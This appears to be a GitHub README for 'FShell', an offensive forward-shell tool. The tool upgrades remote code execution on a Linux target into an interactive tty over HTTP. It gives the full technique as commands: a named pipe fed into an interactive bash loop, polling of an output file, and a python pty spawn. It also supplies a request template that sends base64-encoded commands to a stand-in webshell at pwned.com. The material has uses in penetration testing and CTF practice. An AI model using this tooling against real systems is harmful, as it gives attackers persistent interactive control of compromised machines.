 
# **FShell**

## What is that
FShell is my own Forward Shell designed to get an interactive tty using remote code execution through a stageless protocol (eg HTTP).


## How it is working
The concepts behind this forward shell are pretty simple.

First you need to create a named pipe on the remote system, it will be used to send command to our tty <br>
```mkfifo /tmp/input```.

Then, create a bash loop that read named pipe content, send it to bash and send the stdin & stderr to output file. <br>
```tail -f /tmp/input | /bin/bash -i > /tmp/output 2>&1 ```

[Reading named pipe] -> [Execute named pipe content] -> [Send stdin/stderr into output file] -> [Go to reading named pipe because of '-f' tail option]

Next part is to start a python thread that performing ```cat /tmp/output``` regularly in order to get output of commands. <br/>
If the thread find output, it will clear file content using ```echo '' > /tmp/output```<br/>
*Tips: In order to avoid error logging of an non-existing file, we execute 'id' command before starting the 'GetOutput' thread to create the output file before reading it.*

The final step is to get user input from our python script and sent it in the named pipe using that kind of command: <br>```echo USERCMD > /tmp/input```

**Final trick**
So, using this we get back a remote interactive shell but some command should not work because we have not a 'tty'.
The 'upgrade_shell' command perform a ```python -c 'import pty;pty.spawn("/bin/bash")'``` (and some export and aliases) to spawn a real tty by the current process (used in named pipe loop)


## Requirements
### On attacker machine

Python3 & lib:
- requests
- termcolor

### On the targeted remote system
It is designed to target Linux OS only and require basic commands/tools on the remote system:
- bash
- mkfifo
- cat
- tail
- ps
- grep
- awk
- kill
- python (and pty module)

## Usage
You can change the ```WRITABLE_FOLDER``` variable if /tmp is not available or if you have something better (prefer /dev/shm if available)

You **must** redefine ```execute``` function to perform your remote code execution:

```python3
def execute(cmd, verbose=False, timeout=None)
    """
    :cmd      Raw shell command to execute on the remote system
    :timetout MANDATORY /!\ Used to kill blocking exec loop (used in named pipe creation) in case you can't, put named pipe creation in separated thread
    :verbose  print full cmd execute on the remote system (Debug mode)
    """
    # Put your RCE code here
    r = requests.get('http://pwned.com/rce.php?cmd=%s' % (b64encode(cmd)), timeout=timeout)
    return r.text.strip() # You can apply formating if the output is not only the output of command
```
### Demo

![Demo](https://s2.gifyu.com/images/demo.gif)


# Thanks

Thanks to [@ippsec](https://twitter.com/ippsec), I wasn't knowing that something like this was possible before watching his videos !

Hope you enjoy it!
